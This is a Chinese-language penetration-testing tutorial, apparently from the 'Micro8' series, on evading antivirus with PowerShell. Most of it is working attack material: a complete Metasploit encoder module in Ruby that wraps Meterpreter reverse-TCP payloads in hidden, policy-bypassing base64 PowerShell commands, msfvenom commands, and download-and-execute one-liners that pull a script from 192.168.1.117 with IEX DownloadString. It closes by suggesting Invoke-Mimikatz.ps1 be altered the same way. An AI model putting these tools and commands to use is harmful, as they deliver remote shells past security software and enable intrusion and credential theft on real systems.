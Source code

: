 ```yaml
---
title: 49、关于Powershell对抗安全软件
date: 2019-09-21 19:05:24
comments: true
categories: 
 - Micro8系列
---
```



**知识点介绍：**

Windows PowerShell是以.NET Framework技术为基础，并且与现有的WSH保持向后兼容，因此它的脚本程序不仅能访问.NET CLR，也能使用现有的COM技术。同时也包含了数种系统管理工具、简易且一致的语法，提升管理者处理，常见如登录数据库、WMI。Exchange Server 2007以及System Center Operations Manager 2007等服务器软件都将内置Windows PowerShell。Windows PowerShell的强大，并且内置，在渗透过程中，也让渗透变得更加有趣。而安全软件的对抗查杀也逐渐开始针对powershell的一切行为。在 https://technet.microsoft.com，看到文档如下：

>   Here is a listing of the available startup parameters:
-Command Specifies the command text to execute as though it were typed at the PowerShell command prompt.
-EncodedCommand Specifies the base64-encoded command text to execute.
-ExecutionPolicy Sets the default execution policy for the console session.
-File Sets the name of a script file to execute.
-InputFormat Sets the format for data sent to PowerShell as either text string or serialized XML. The default format is XML. Valid values are text and XML.
-NoExit Does not exit after running startup commands. This parameter is useful when you run PowerShell commands or scripts via the command prompt(cmd.exe).
-NoLogo Starts the PowerShell console without displaying the copyright banner.
-Noninteractive Starts the PowerShell console in non-interactive mode. In this mode, PowerShell does not present an interactive prompt to the user.
-NoProfile Tells the PowerShell console not to load the current user’s profile.
-OutputFormat Sets the format for output as either text string or serialized XML. The default format is text. Valid values are text and XML.
-PSConsoleFile Loads the specified Windows PowerShell console file. Console files end with the .psc1 extension and can be used to ensure that specific snap-in extensions are loaded and available. You can create a console file using Export-Console in Windows PowerShell.
-Sta Starts PowerShell in single-threaded mode.
-Version Sets the version of Windows PowerShell to use for compatibility,such as 1.0.
-WindowStyle Sets the window style as Normal, Minimized, Maximized, or Hidden. The default is Normal.

针对它的特性，本地测试：
> Add-Type -AssemblyName PresentationFramework;
>[System.Windows.MessageBox]::Show('Micropoor')

![](../do/media/faf8154c646ab4aa837ebb8d5d99ae78.jpg)

![](../do/media/e1f2fb4edc10e83ae5f2c2f51d6ead38.jpg)

上文所说，越来越多的杀软开始对抗，powershell的部分行为，或者特征。以msfvenom为例，生成payload。  
![](../do/media/7eec22528d589cc79d6af609182206e7.jpg)

micropoor.ps1不幸被杀。  
![](../do/media/90aeb138701d59ba01c5497d2c9d978e.jpg)

针对powershell特性，更改payload  
![](../do/media/12ee496efb54f3670b111d3be3cde056.jpg)

![](../do/media/55da22835d354321eba9b36ebf36128d.jpg)

接下来考虑的事情是如何把以上重复的工作变成自动化，并且针对powershell，DownloadString特性，设计出2种payload形式：  
（1）目标机出网  
（2）目标机不出网

并且根据需求，无缝连接Metasploit。

根据微软文档，可以找到可能对以上有帮助的属性，分别为：  
* Window  
* Style  
* NoExit EncodedCommand  
* exec

自动化实现如下：
```ruby
# copy base64.rb to metasploit-framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.
# E.g
# msf encoder(powershell/base64) > use exploit/multi/handler
# msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
# payload => windows/x64/meterpreter/reverse_tcp
# msf exploit(multi/handler) > exploit
# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
# [*] Started reverse TCP handler on xx.1xx.xx.xx:xx

class MetasploitModule < Msf::Encoder
    Rank = NormalRanking

def initialize
    super(
    'Name' => 'Powershell Base64 Encoder',
    'Description' => %q{
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx
-f psh-reflection --arch x64 --platform windows | msfvenom -e
powershell/base64 --arch x64 --platform windows.
    },
    'Author' => 'Micropoor',
    'Arch' => ARCH_CMD,
    'Platform' => 'win')

register_options([
OptBool.new('payload', [ false, 'Use payload ', false ]), 
OptBool.new('x64',[ false, 'Use syswow64 powershell', false ])
])

end

def encode_block(state, buf)
base64 = Rex::Text.encode_base64(Rex::Text.to_unicode(buf)) 
cmd = ''
if datastore['x64']
    cmd += 'c:\\Windows\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe '
else
    cmd += 'powershell.exe ' 
end
if datastore['payload']
    cmd += '-windowstyle hidden -exec bypass -NoExit ' 
end
cmd += "-EncodedCommand \#{base64}" 
end
end

# if use caidao
# execute echo powershell -windowstyle hidden -exec bypass -c \""IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.117/xxx.ps1');\""|msfvenom -e x64/xor4 --arch x64 --platform windows
# xxx.ps1 is msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx LPORT=xx -f psh-reflection --arch x64 --platform windows | msfvenom -e powershell/base64 --arch x64 --platform windows.
```

>copy powershell_base64.rb to metasploit‐framework/embedded/framework/modules/encoders/powershell.If powershell is empty,mkdir powershell.

参数 payload 选择是否使用 Metasploit payload，来去掉 powershell 的关键字。

例1（目标出网，下载执行）：

```code
echo powershell ‐windowstyle hidden ‐exec bypass ‐c \""IEX (New‐ObjectNet.WebClient).DownloadString('http://192.168.1.117/micropoor.ps1');\""|msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows
```

![](../do/media/837e8a66210018c4e7891f7cc44ae8dc.jpg)  

![](../do/media/3101ba162d3677409f14f2e6f58a5d2d.jpg)


例2（目标不出网，本地执行）  
![](../do/media/274ee525bf8c174b256047a449e2165c.jpg)

### 注：加payload参数

```code
msfvenom ‐p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.117 LPORT=8080 ‐f psh‐reflection ‐‐arch x64 ‐‐platform windows | msfvenom ‐e powershell/base64 ‐‐arch x64 ‐‐platform windows payload
```

更多有趣的实验：

把例1的 down 内容更改为例2，并且去掉 payload 参数。来减小 payload 大小。

更改 Invoke-Mimikatz.ps1 等。

![](../do/media/1668ff8230cc690822b002a58bed23b7.jpg)

>   Micropoor
